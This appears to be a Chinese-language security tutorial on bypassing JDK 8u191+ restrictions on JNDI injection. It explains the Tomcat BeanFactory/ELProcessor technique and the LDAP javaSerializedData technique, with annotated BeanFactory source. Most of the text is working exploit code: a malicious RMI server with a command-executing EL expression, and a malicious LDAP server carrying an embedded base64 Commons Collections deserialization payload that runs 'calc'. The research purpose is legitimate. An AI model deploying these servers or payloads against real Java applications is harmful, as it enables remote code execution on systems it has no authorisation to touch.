

## 环境搭建

前面的JNDI注入最多到达JDK8U191

环境是JDK8U201

## 绕过的原理

对于JDK版本11.0.1、8u191、7u201、6u211及以上，RMI和LDAP的`trustURLCodebase`已经被限制，但是还存在几种方法绕过

1. 使用靶机本地的类作为恶意Reference Factory实现RCE
2. 利用LDAP返回的序列化值实现RCE

## 寻找本地的类作为恶意工厂

之前构造恶意工厂需要继承`javax.naming.spi.ObjectFactory`，同时覆写了`getObjectInstance`方法

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilObjectFactory implements ObjectFactory {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("done");
        Runtime.getRuntime().exec("calc");
        return null;
    }
}

```

如果需要本地的类作为恶意的工厂类，我们就需要寻找继承了`javax.naming.spi.ObjectFactory`的类

### BeanFactory类

环境：

```xml
 <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-catalina</artifactId>
            <version>8.5.0</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.tomcat.embed/tomcat-embed-el -->
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-el</artifactId>
            <version>8.5.3</version>
        </dependency>
```

tomcat-catalina.jar中`org.apache.naming.factory.BeanFactory`继承了`ObjectFactory`,还覆写了`getObjectInstance`



先给出payload，可以根据payload进行动态分析

Server:

```java
package org.example.RMI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("[*]Evil RMI Server is Listening on port: 6666");
        Registry registry = LocateRegistry.createRegistry( 6666);
        // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
        ref.add(new StringRefAddr("forceString", "x=eval"));
        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd', '/c', 'calc']).start()\")"));
        System.out.println("[*]Evil command: calc");
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}

```

因为`lookup`最后会调用`getObjectInstance`方法，直接分析

```java
public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws NamingException {
        if (obj instanceof ResourceRef) {
            NamingException ne;
            try {
                //获取Reference类
                Reference ref = (Reference)obj;
                //获取className
                String beanClassName = ref.getClassName();
                Class<?> beanClass = null;
                //获取当前上下文的类加载器
                ClassLoader tcl = Thread.currentThread().getContextClassLoader();
                if (tcl != null) {
                    try {
                        //获取一个class实例
                        beanClass = tcl.loadClass(beanClassName);
                    } catch (ClassNotFoundException var26) {
                    }
                } else {
                    try {
                        beanClass = Class.forName(beanClassName);
                    } catch (ClassNotFoundException var25) {
                        var25.printStackTrace();
                    }
                }

                if (beanClass == null) {
                    throw new NamingException("Class not found: " + beanClassName);
                } else {
                    BeanInfo bi = Introspector.getBeanInfo(beanClass);
                    PropertyDescriptor[] pda = bi.getPropertyDescriptors();
                //实例化成功后，获取Reference的forceString参数
                    Object bean = beanClass.newInstance();
                    RefAddr ra = ref.get("forceString");
                    Map<String, Method> forced = new HashMap();
                    String value;
                    String propName;
                    int i;
                    if (ra != null) {
                  //这里类型转换为String，然后按照逗号分割成String数组
                        value = (String)ra.getContent();
                        Class<?>[] paramTypes = new Class[]{String.class};
                        String[] arr$ = value.split(",");
                        i = arr$.length;
				//然后对于每一个数组元素：判断是否包含等号，如果包含等号：等号后面作为propName、等号前面作为param；如果没有等号那么加set。
                        for(int i$ = 0; i$ < i; ++i$) {
                            String param = arr$[i$];
                            param = param.trim();
                            int index = param.indexOf(61);
                            if (index >= 0) {
                                propName = param.substring(index + 1).trim();
                                param = param.substring(0, index).trim();
                            } else {
                                propName = "set" + param.substring(0, 1).toUpperCase(Locale.ENGLISH) + param.substring(1);
                            }
						//将String数组的元素，等号param前面的作为键，值是beanClass这个class实例中，方法名为propName值的方法
                            try {
                                forced.put(param, beanClass.getMethod(propName, paramTypes));
                            } catch (SecurityException | NoSuchMethodException var24) {
                                throw new NamingException("Forced String setter " + propName + " not found for property " + param);
                            }
                        }
                    }

                    Enumeration<RefAddr> e = ref.getAll();
				//开始遍历ref中的refAddr 
                    while(true) {
                        while(true) {
                            do {
                                do {
                                    do {
                                        do {
                                            do {
                                                if (!e.hasMoreElements()) {
                                                    return bean;
                                                }

                                                ra = (RefAddr)e.nextElement();
                                                propName = ra.getType();
                                            } while(propName.equals("factory"));
                                        } while(propName.equals("scope"));
                                    } while(propName.equals("auth"));
                                } while(propName.equals("forceString"));
                            } while(propName.equals("singleton"));
						//propName是上面的param，value是Reference类中RefAddr中属性名param对应的值。
                            value = (String)ra.getContent();
                            Object[] valueArray = new Object[1];
                            Method method = (Method)forced.get(propName);
                            if (method != null) {
                                valueArray[0] = value;
						//执行方法
                                try {
                                    method.invoke(bean, valueArray);
                                } catch (IllegalArgumentException | InvocationTargetException | IllegalAccessException var23) {
                                    throw new NamingException("Forced String setter " + method.getName() + " threw exception for property " + propName);
                                }
```

相当于，给`forceString`赋值`x=eval`，再添加一个`StringRefAddr`类型,type为`x`,值为`恶意代码`，就可以执行bean对象中的`eval`方法，从而触发恶意代码


我们利用`javax.el.ELProcessor`类实现一个eval方法


同时恶意代码为EL表达式实现一个RCE的代码

```
''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('calc')")

''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('calc.exe')
```

再来分析下payload怎么构造的？

在之前的JNDI中，我们需要就是一个通过`ReferenceWrapper_Stub`获取到的`ResourceRef`


调用`getObjectInstance`方法的时候，传进去的`ref`也是`ResourceRef`类型


所以我们直接构造一个`ResourceRef`类

看他和他父类的构造函数


所以`factory`为`org.apache.naming.factory.BeanFactory`


需要调用`ELProccessor`，所以`className`为`javax.el.ELProcessor`


`&&`是and符号，所以我们将`factoryLocation`设置为null，就可以绕过


payload也就成功构造了。

## 利用LDAP返回的序列化值实现RCE


前面的调试是一样的


进入

```java
 static final String[] JAVA_ATTRIBUTES = new String[]{"objectClass", "javaSerializedData", "javaClassName", "javaFactory", "javaCodeBase", "javaReferenceAddress", "javaClassNames", "javaRemoteLocation"};
```


在进入deserializeObject，这个位置就直接触发一个反序列化实现RCE，跟之前低版本触发点不一样


所以我们只需要给`javaSerializedData`写入我们反序列化值

这个反序列化值，cc链cb链都可以。

```java
package JNDI;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class LdapServer2 {
    public static void main(String[] args) throws Exception {
        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig("dc=example,dc=com");
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen",
                InetAddress.getByName("127.0.0.1"),
                389,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()
        ));
        config.addInMemoryOperationInterceptor(new OperationInterceptor());
        InMemoryDirectoryServer directoryServer = new InMemoryDirectoryServer(config);
        directoryServer.startListening();
        System.out.println("ldap://127.0.0.1:389 is working...");
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();

            Entry entry = new Entry(base);
            entry.addAttribute("javaClassName", "hahaha");

            try {
                entry.addAttribute("javaSerializedData", Base64.decode("rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAAAI/QAAAAAAAAXNyADRv" +
                        "cmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznB" +
                        "H9sCAAJMAANrZXl0ABJMamF2YS9sYW5nL09iamVjdDtMAANtYXB0AA9MamF2YS91dGlsL01hcDt4" +
                        "cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSC" +
                        "nnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5z" +
                        "Zm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFp" +
                        "bmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUv" +
                        "Y29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9u" +
                        "cy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hl" +
                        "LmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGU" +
                        "AgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBz" +
                        "cgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zv" +
                        "cm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5h" +
                        "bWV0ABJMamF2YS9sYW5nL1N0cmluZztbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNz" +
                        "O3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1" +
                        "cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+ABsA" +
                        "AAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAbc3EAfgATdXEAfgAYAAAA" +
                        "AnB1cQB+ABgAAAAAdAAGaW52b2tldXEAfgAbAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAA" +
                        "AAAAAAB4cHZxAH4AGHNxAH4AE3VyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAA" +
                        "AAF0AARjYWxjdAAEZXhlY3VxAH4AGwAAAAFxAH4AIHNxAH4AD3NyABFqYXZhLmxhbmcuSW50ZWdl" +
                        "chLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAB" +
                        "c3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xk" +
                        "eHA/QAAAAAAAAHcIAAAAEAAAAAB4eHg="));
                result.sendSearchEntry(entry);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            }catch (Exception e){
                e.printStackTrace();
            }
        }
    }
}


```


## 参考

http://www.yulegeyu.com/2019/01/11/Exploitng-JNDI-Injection-In-Java/